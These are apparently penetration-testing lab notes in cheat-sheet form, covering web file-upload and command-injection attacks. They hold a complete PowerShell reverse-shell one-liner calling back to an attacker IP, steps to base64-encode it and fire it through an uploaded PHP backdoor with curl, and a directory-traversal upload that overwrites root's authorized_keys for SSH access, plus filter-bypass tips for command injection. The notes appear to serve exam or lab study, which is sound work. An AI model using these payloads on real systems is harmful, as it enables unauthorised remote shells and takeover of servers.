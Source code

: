 * PowerShell on Kali Machine to encoder the RevShell One-liner
    1. Create variable $text, used for storing RevShell as string
    2. Encode via Unicode class
    3. Use Convert function 

```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.203",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText # Copy this output for use
exit
# When usin this CURL, notice the following 
# cmd=powershell -enc BASE64-STRING, cmd=powershell%20-enc%20BASE64-STRING
curl http://192.168.50.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAa
```
## Using Non-Executable Files
* Always try file uplaod twice, to see WebApp behavior. If the WebApp responds that file exists, you can use this to brute-force contents of server. 
* If instead, WebApp returns an error, this may disclose info about tech stack
* Try DIR traversal on file upload, to see if you we can write to another location
* Attempt to override root/.ssh/authorized_keys to gain ssh access

```bash
ssh-keygen
file_up # priv key is file_up : public key will be file_up.pub
cat file_up.pub > authorized_keys
# send with burp or CURL to server, then ssh
filename="../../../../../../../../root/.ssh/authorized_keys" # Burp syntax

 ssh -p 2222 -i fileup root@mountaindesserts.com  -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" 
```
## OS Command Injection
* If WebApp allows commands, try adding or appending our commands to that
* Use semicolon `%3B`to attempt filter bypass
* try classic double Backticks, such as 
```bash
`command`
```
* URL encode the commands at https://www.w3schools.com/tags/ref_urlencode.asp
* once working command injection, find AVAILABLE  commands by testing using which
    * which command, i.e. `which nc` or `which bash` or `which python3`
